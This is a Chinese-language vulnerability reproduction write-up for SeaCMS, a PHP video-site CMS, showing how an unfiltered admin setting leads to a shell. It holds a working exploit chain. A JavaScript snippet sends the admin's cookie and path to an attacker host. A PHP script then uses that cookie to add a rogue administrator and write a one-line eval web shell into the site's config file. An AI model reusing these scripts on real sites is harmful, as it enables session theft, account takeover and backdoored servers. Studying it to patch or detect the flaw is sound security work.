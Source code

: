 # seacms getshell

### 一、漏洞简介

海洋cms是一款简单的php内容管理系统，主要用于视频网站，采用PHP+MYSQL架构，未使用框架

### 二、漏洞影响

### 三、复现过程

后台代码如下


```php
<?php
header('Content-Type:text/html;charset=utf-8');
require_once(dirname(__FILE__)."/config.php");
CheckPurview();
if($action=="set")
{
    $v= $_POST['v'];
    $ip = $_POST['ip'];
    $open=fopen("../data/admin/ip.php","w" );
    $str='<?php ';
    $str.='$v = "';
    $str.="$v";
    $str.='"; ';
    $str.='$ip = "';
    $str.="$ip";
    $str.='"; ';
    $str.=" ?>";
    fwrite($open,$str);
    fclose($open);
    ShowMsg("成功保存设置!","admin_ip.php");
    exit;
}
?>
```

这里根本没有经过过滤，直接将变量写进去，可以写一个脚本利用

代码如下


```js
# test.js
var img = new Image();
img.src=  "http://127.0.0.1/test.php?x=" + document.cookie + "&p=" + location.pathname;
# test.php
<?php
    function Requests($url, $data, $cookie = '', $type = 1){
        $ch = curl_init();
        $params[CURLOPT_URL] = $url;
           $params[CURLOPT_HEADER] = FALSE;
        $params[CURLOPT_SSL_VERIFYPEER] = false;
        $params[CURLOPT_SSL_VERIFYHOST] = false;
        $params[CURLOPT_RETURNTRANSFER] = true;
        if ($type === 1) {
            $params[CURLOPT_POST] = true;
            $params[CURLOPT_POSTFIELDS] = $data;
        }
        $params[CURLOPT_COOKIE] = $cookie;
        curl_setopt_array($ch, $params);
        $output = curl_exec($ch);
        file_put_contents('log.txt', $output, FILE_APPEND);
        curl_close($ch);
    }
    $C = $_GET['x'];
    $P = $_GET['p'];
    $P = substr($P, 0, strlen($P)-21);
    file_put_contents('c.txt', $C);
    file_put_contents('p.txt', $P);
    $url_1 = 'http://192.168.113.128'.$P.'admin_manager.php?action=add';
    $url_2 = 'http://192.168.113.128'.$P.'admin_ip.php?action=set';
    $data_1 = 'username=test&pwd=test&pwd2=test&groupid=1';
    $data_2 = 'v=0&ip=+";@eval($_POST[qwer]);"';
    Requests($url_1, $data_1, $C);
    Requests($url_2, $data_2, $C);
```

这两个脚本会将cookie和后台路径保存在文件中，并且会向后台发送数据，添加一个系统管理员，同时会在系统中写入一个一句话木马，需要注意的是修改域名为测试域名。测试如下

![](images/15893388678483.png)


代码已经写进了后

![](images/15893388737028.png)


管理员添加成功

![](images/15893388789052.png)


一句话也写进去了